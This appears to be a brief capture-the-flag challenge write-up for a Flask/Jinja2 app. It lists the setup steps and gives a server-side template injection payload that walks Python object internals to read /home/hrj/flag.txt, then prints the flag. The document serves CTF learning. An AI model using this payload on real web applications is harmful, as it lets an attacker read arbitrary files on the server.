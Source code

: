 Setup :
pip install flask
pip install jinja2

Make a flag.txt file in /home/hrj/

Run the server
python app.py


Read the file flag in /home/hrj/flag.txt

Payload:
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/hrj/flag.txt').read() }}

flag.txt:
inctfj{$$ti_i$_3@sy_bUT_th3r3_1$_Ch@nce_0f_X$$}


